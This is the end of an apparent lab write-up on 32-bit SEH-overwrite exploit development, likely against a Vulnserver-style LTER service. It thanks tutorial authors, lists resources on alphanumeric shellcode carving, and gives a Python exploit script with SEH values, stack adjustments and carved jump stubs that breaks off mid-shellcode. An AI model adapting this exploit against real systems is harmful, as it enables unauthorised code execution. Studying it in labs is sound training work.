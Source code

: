 
## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I’m super appreciative. Truly mean it.

## Resources
+ [OffSec Alphanumeric Shellcode](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/)
+ [Corelan Mona Tutorial](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)
+ [Doyler LTER SEH Overwrite Part 1](https://www.doyler.net/security-not-included/lter-seh-continued)
+ [Doyler LTER SEH Overwrite Part 2](https://www.doyler.net/security-not-included/lter-seh-continued)
+ [VelloSec Carving Shellcode](http://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/)
+ [Slink by @ihack4falafel](https://github.com/ihack4falafel/Slink)

## Final Exploit Code
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

longJump = "\x54\x5b"
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"

espAdj3 = '\x54\x58\x2c\x4b\x50\x5c'

shellcode = ""
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
```